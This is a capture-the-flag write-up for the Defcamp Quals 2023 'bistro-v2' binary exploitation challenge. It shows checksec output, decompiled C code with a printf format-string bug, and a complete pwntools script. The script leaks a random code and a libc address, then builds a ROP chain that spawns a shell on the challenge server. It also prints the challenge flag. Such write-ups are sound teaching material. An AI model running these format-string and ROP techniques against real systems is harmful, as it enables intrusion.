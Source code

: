 ```yaml
---
title: bistro-v2
date: 2023-10-22T09:56:31+03:00
description: Writeup for bistro-v2 [Defcamp Quals 2023]
type: writeup
author: sunbather
tags:
  - pwn
draft: false
---
```


___

## Challenge Description

Maybe you can get a free menu!!

Flag format: CTF{sha256}

### Intuition

Checksec the binary to see what we have.

```
$ checksec restaurant-v2
LIBC_FILE=/lib/x86_64-linux-gnu/libc.so.6
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH	Symbols		FORTIFY	Fortified	Fortifiable	FILE
Partial RELRO   No canary found   NX enabled    No PIE          No RPATH   No RUNPATH   82 Symbols	  No	0		4		restaurant-v2
```
It's the same binary as in ``bistro``, but with an added function that checks a "code". Let's check it:

```c
int main(int argc,char **argv)
{
  int iVar1;
  ssize_t sVar2;
  undefined4 in_register_0000003c;
  char **argv-local;
  int argc-local;
  int not_flag;
  int flag;
  int fd;
  
  init((EVP_PKEY_CTX *)CONCAT44(in_register_0000003c,argc));
  fd = open("/dev/urandom",0);
  if (fd == -1) {
    puts("Open failed");
    iVar1 = -1;
  }
  else {
    sVar2 = read(fd,&flag,4);
    if (sVar2 == 4) {
      close(fd);
      puts("Wellcome to the restaurant V2!");
      fflush(stdout);
      fgets(buff,0x400,stdin);
      printf(buff);
      puts("Show me your ticket to pass: ");
      fflush(stdout);
      __isoc99_scanf("%x",&not_flag);
      if (flag == not_flag) {
        restaurant();
      }
      else {
        puts("Permission denied!\n");
      }
      iVar1 = 0;
    }
    else {
      puts("Read failed\n");
      iVar1 = -1;
    }
  }
  return iVar1;
}
```
So we just need to leak it with the vulnerable printf and write it correctly to pass the check. Then we run the same script as before but with some addresses changed.

### Solution

```py
#!/usr/bin/env python3

from pwn import *

#target = process("./restaurant")
target = remote("34.107.4.232", 31399)

# Found with ROPGadget
pop_rdi = p64(0x0000000000400b33)
ret = p64(0x00000000004006ae) # align stack to 16-bytes again for system call

# Found in the binary
main_addr = p64(0x0040088a)
puts_plt = p64(0x004006c0)
puts_got = p64(0x00602018)

# Leak the real code
target.sendline(b"%9$x")
code_leak = target.recvuntil(b"Show me your ticket to pass: ").split(b'\n')[1]

# Send it when the binary asks for the ticket
print(code_leak)
target.sendline(code_leak)

# Same exploit as in bistro, check that writeup
target.sendline(b"3")
payload = b"a" * 0x78 + pop_rdi + puts_got + puts_plt + main_addr # go back to main for more inputs
target.sendline(payload)
print(target.recvuntil(b">>"))
print(target.recvline())
puts_leak = u64(target.recvline().strip().split(b':')[1].ljust(8, b'\x00'))
print(puts_leak)
print(hex(puts_leak))

system_addr = p64(puts_leak - 202064)
print(system_addr)

sh_addr = p64(puts_leak + 0x133418)

payload = b"a" * 0x78 + ret + pop_rdi + sh_addr + system_addr

target.sendline(payload)
target.interactive()
```

#### Flag

```CTF{04134a331cd5bed41dc418c04854ac3fd7e03148f0e61d74d61508f19b7c5933}```
